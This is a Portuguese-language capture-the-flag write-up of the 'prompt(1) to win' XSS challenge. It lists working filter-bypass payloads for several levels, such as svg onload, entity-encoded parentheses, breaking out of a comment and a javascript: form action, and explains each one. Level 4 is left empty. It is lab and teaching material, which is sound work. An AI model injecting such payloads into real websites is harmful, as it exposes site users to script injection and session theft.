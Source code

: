 # Prompt(1) to Win
###### Solved by @joaoselim
>This challenge is about XSS, JavaScript, Injeção de Código
## About the challenge
Nesse desafio de XSS(Cross-Site Scripting) temos o objetivo de realizar diversas injeções de código JavaScript, para chamar prompt(1) através de 15 níveis diferentes

## Solutions
#### Desafio 0:

[![questao0.png](https://i.postimg.cc/W4g2WgjP/questao0.png)](https://postimg.cc/kVM3DVBj)

Input:
```
"><script>prompt(1)</script>
```
Nesse primeiro caso temos um código simples, sem filtragem, oque devemos nos atentar é em sair do atributo `value="` usando `"`, e encerrar a tag `input` usando `/>`. A partir daí
inserimos nosso script `<script>prompt(1)</script>`

HTML Source:
```
<input type="text" value=""><script>alert(1)</script>">
```

#### Desafio 1:

[![questao1.png](https://i.postimg.cc/cL9SFhPj/questao1.png)](https://postimg.cc/jD7m5HxQ)

Input:
```
<svg/ onload=prompt(1) 
```
Seguido de uma quebra de linha ou espaço.

Agora começamos a ter que contornar tipos de filtragem. Nessa questão a regex `/<\/?[^>]+>/gi` faz com que ao inserirmos qualquer informação em uma tag HTML encerrada por `>` será 
substituido no código por `''`, para isso, abrimos o construtor `<` e fornecemos um tipo de imagem svg, e usamos uma `/` para que ocorra uma quebra no formato da tag, em seguida afirmamos para o código 
usando o `onload` que ao carregar a imagem deve chamar `prompt(1)`

HTML Source:
```
<article><svg/ onload=prompt(1)
</article>
```

#### Desafio 2:

[![questao2.png](https://i.postimg.cc/13hHLVNK/questao2.png)](https://postimg.cc/zV7KhB7L)

Input:
```
<svg><script>prompt&#40;1)</script>
```
Ainda lidando com filtragem, agora não podemos usar nem `=` nem `(`, ent para isso tem se conhecimento que todas as teclas de um teclado tem um código correspondente, no caso do `(` é `&#40`. Iniciamos nosso input abrindo a tag `<svg>`, concluimos colocando um script dentro dela `<script></script>` e chamando o prompt(1) dentro da tag script

HTML Source:
```
<svg><script>prompt&#40;1)</script>
```

#### Desafio 3:

[![questao3.png](https://i.postimg.cc/yx6bwggd/questao3.png)](https://postimg.cc/9RSb9fB5)

Input:
```
--!><svg onload=prompt(1)
```
Nessa questão nosso input está sendo colocado dentro de `<!--...-->`, então tudo que escrevemos é visto pelo código como comentário, então precisamos encerrar a sessão de comentarios.
Para isso é possível usar de 2 formas, `-->` e `--!>`, mas como temos a filtragem de `->` então temos de usar a segunda opção. 
Então seguimos nosso input com um tipo `svg` em que ao ser carregado chama o `prompt(1)`

HTML Source:
```
<!-- --!><svg onload=prompt(1) -->
```

#### Desafio 4:

[![questao4.png](https://i.postimg.cc/nz5tYGwx/questao4.png)](https://postimg.cc/mzQqTCsp)

Input:
```

```
resolução

HTML Source:
```

```

#### Desafio 5:

[![questao5.png](https://i.postimg.cc/R0kkWZ3C/questao5.png)](https://postimg.cc/GBj7NrJ6)

Input:
```
"type=image src onerror
="prompt(1)
```
Primeiro fechamos as aspas do `value="`, assim oque escrevermos não vai mais ser registrado como valor. Em seguida fornecemos ao código uma imagem falsa, assim o nosso src vai dar como erro. Mas pra conseguirmos burlar o filtro, temos de colocar o `onerror` em uma linha e o `=` em outra.

HTML Source:
```
<input value=""type=image src onerror
="prompt(1)" type="text">
```

#### Desafio 6:

[![questao6.png](https://i.postimg.cc/KvV2CMBj/questao6.png)](https://postimg.cc/svpqh1nC)

Input:
```
javascript:prompt(1)#{"action":1}
```
A entrada de javascript:prompt(1) é aceita por na filtragem só se restringir `script:` ou `data:`, usando `#` com função de split assim preenchendo as partes de acordo:
```
var segments = input.split('#');
var formURL = segments[0];      // "javascript:prompt(1)"
var formData = JSON.parse(segments[1]); // {"action":1}
```
assim definindo javascript:prompt(1) como action

HTML Source:
```
<form action="javascript:prompt(1)" method="post"><input name="action" value="1"></form>                         
<script>                                                  
    // forbid javascript: or vbscript: and data: stuff    
    if (!/script:|data:/i.test(document.forms[0].action)) 
        document.forms[0].submit();                       
    else                                                  
        document.write("Action forbidden.")               
</script>    
```

#### Desafio 7:

[![questao7.png](https://i.postimg.cc/3wm8yZs0/questao7.png)](https://postimg.cc/XZNSm97n)

Input:
```
"><img/src=#"onerror='/*#*/prompt(1)'
```
Nesse desafio se tem um limite de 12 caracteres por linha e se divide a entrada com `#`, com isso temos de montar em partes nosso código.
Então assim como no desafio 5, temos uma imagem com src falso, e para que a atribuição do que se deve fazer ao dar erro não seja atrapalhada, nós comentamos o trecho da linha `<p class="comment" title="` terminando a linha de cima com `/*` e começando a próxima com `*/`

HTML Source:
```
<p class="comment" title=""><img/src="></p>
<p class="comment" title=""onerror='/*"></p>
<p class="comment" title="*/prompt(1)'"></p>
```

#### Desafio A:

[![questaoA.png](https://i.postimg.cc/0y0v66S5/questaoA.png)](https://postimg.cc/68qggpzF)

Input:
```
p'rompt(1)
```
O código da questão substitui a string `prompt` pela string `alert` e também substitui `'` por `''`, então colocando `'` em qualquer parte da string já não ocorre a troca para alert, e o programa prompt(1) não é afetado pela presença de `'`

HTML Source:
```
<script>prompt(1)</script>
```
